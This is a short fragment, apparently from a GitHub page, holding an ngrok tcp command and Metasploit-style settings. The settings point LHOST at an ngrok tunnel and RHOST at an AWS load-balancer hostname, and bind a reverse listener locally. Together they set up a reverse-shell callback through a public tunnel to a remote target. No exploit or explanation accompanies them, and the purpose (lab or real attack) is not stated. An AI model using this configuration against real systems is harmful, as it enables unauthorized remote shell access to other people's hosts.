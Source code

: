 ngrok tcp 6443


set LHOST 7.tcp.eu.ngrok.io
set LPORT 11977
set RHOST a71d3a9bc147648829d8566359d3473e-31074064.eu-central-1.elb.amazonaws.com
set RPORT 80
set ReverseListenerBindAddress 127.0.0.1
set ReverseListenerBindPort 6443